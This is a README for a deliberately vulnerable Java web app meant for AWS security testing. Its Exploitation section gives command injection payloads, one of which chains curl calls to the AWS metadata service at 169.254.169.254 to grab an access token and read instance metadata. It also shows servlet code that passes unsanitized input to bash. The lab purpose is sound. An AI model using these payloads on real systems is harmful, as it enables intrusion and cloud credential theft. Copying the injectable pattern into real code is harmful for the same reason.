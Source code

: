 # Vulnerable Java Webapp

A simple java based webapp which contains a code injection vulnerability. 
 

## Table of Contents

- [Features](#features)
- [Installation](#installation)
- [Usage](#usage)
- [License](#license)

## Features

I needed a simple app for security testing in AWS, in Java.
The premise is a simple "is it up" type app, which executes a ping in the background.

- Simple stand alone application
- Uses jetty for simple setup
- Includes command injection vulnerability
- Can be leverged to SSRF in an AWS environment, for example to gather data from the AWS metadata service
- appspec and buildspec installedif you'd like to deploy using a code pipeline in AWS

## Installation

Clone the repo and ensure you have maven installed.
If deploying in aws I recommend deploying to an amazon linux instance (this is where I tested it), but Ubuntu should work too.


## Usage

Either use the app as standalone with `mvn jetty:run` or deploy as part of an AWS code pipeline.

Note that AWS requires some specific syntax to invoke long running commands as part of a deployment, hence the
`mvn jetty:run> /dev/null 2> /dev/null < /dev/null &` in start.sh


## Exploitation


**Code execution:**
Example exploitation- 
```google.com && whoami```


**SSRF exploit:**
Example exploitation- 
```google.com && TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/meta-data/ > output && cat output```



## Vulnerabilty 
The vulnerable code is within CommandExecutorServlet.java, where we accept unsantized user input:

```
if (command != null && !command.isEmpty()) {
  // Modify the command to include "ping -c 4" and the user-provided command
  String fullCommand = "ping -c 4 " + command;

  // Execute the command (handle security and sanitization here)
  String result = executeCommand(fullCommand);
```

And then pass it to bash....

```Process process = new ProcessBuilder("/bin/bash", "-c", command).start();```



